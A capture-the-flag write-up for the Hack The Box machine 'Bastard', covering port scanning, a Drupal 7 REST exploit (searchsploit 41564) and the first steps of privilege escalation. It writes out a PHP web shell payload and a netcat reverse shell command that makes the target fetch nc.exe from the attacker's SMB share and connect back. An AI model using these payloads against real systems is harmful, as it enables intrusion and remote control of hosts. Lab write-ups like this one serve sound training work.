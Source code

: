 # Bastard 

**OS:** Windows

**Level:** Medium

**Links:** [1](https://www.hackthebox.com/machines/Bastard)  [2](https://app.hackthebox.com/machines/Bastard)

**Machine ip:** 10.10.10.9

![Bastard](https://github.com/h4md153v63n/CTFs/assets/5091265/84d54684-632c-4ac5-ac8e-146a4b2d7267)


## Reconnaissance
```
sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.9 -e tun0 > ports

ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')

sudo nmap -Pn -n -sV -sC -O -p$ports 10.10.10.9 --open
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/3af46416-e08d-4b5c-bdfb-0d8a16c4e1fb)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/c9205d7a-b825-43c2-b71b-15b0456a3bb3)


## Enumeration
Visit **http://10.10.10.9**.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/cf5880f4-a25e-4c05-9b77-86ee83268cc1)

Check **http://10.10.10.9/CHANGELOG.txt**.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/5163edd8-e04c-472a-bd4e-45e64c7c4083)

Run searchsploit:

```
searchsploit drupal 7.x

searchsploit -m 41564
```
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/d11fa67b-28a5-4a61-a50f-57a97b5b080c)

```
gobuster dir -e -w /usr/share/wordlists/dirb/common.txt -u http://10.10.10.9/ -k -n -r -t 10 --exclude-length 1233
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/0ccab42b-9061-43f5-9c20-7b7c06453c46)

Test **http://10.10.10.9/rest** on the browser or using **curl**.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/575bf492-5f0d-4771-b1b2-9a4d444580b6)

Modify the below lines in the exploit code:

```
$url = 'http://10.10.10.9';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';

$file = [
    'filename' => 'cmd.php',
    'data' => '<?php system($_GET["cmd"]); ?>'
];
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/b01489e0-aa1c-4305-ae2f-d9ae3dbd4b2b)

Run the exploit: `php 41564.php`

In case of **PHP Fatal error:  Uncaught Error: Call to undefined function curl_init()** error, run `sudo apt install php-curl` to install **php-curl**:

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/293cb05e-6870-46cc-812d-1185ac050fa2)

Rerun the exploit: `php 41564.php`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/ab1d4ce6-aee4-4848-ba58-e3312d37e1c2)

It creates 2 files: **session.json** and **user.json**. 

Execute **http://10.10.10.9/cmd.php?cmd=whoami%20/all**

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/557645c5-3039-4d4c-ab37-c4e5a0a724b8)


## Exploitation & Gaining Access
```
# On the kali attack vm: Start smbserver to share a copy of nc.exe
smbserver.py win /usr/share/windows-binaries/

# On the kali attack vm: Start netcat listener
nc -lnvp 4444

# Trigger the netcat revershell on the browser:
http://10.10.10.9/cmd.php?cmd=\\10.10.14.24\win\nc.exe -e cmd.exe 10.10.14.24 4444
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/dcb8eaec-0ef3-4de7-b6ac-29859f8eecd4)

Get the revershell, and read user flag:

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/652b50a0-4934-4ecd-8c70-20636bc5ac0d)


## Privilege Escalation
Run `systeminfo` command:

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/c0ed2707-e0cb-481d-b467-a6d5aaaf90df)

Run Windows Exploit Suggester:

```
# On the kali attack vm:
python2 windows-exploit-suggester.py --update

python2 windows-exploit-suggester.py --database 2024-04-14-mssb.xls --systeminfo systeminfo.txt
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/1c85b903-336c-44b0-8e07-07b9f66c9861)





# References & Alternatives
+ https://vvmlist.github.io/#Bastard
+ 


## CVE Scripting
+ 


## Tools
+  


## Technical Knowledge
+  


## Problems Solution
+ **PHP Fatal error:  Uncaught Error: Call to undefined function curl_init():** 
  + https://stackoverflow.com/questions/6382539/call-to-undefined-function-curl-init
  + https://enginetemplates.com/call-to-undefined-function-curl_init/


## For More
+ 

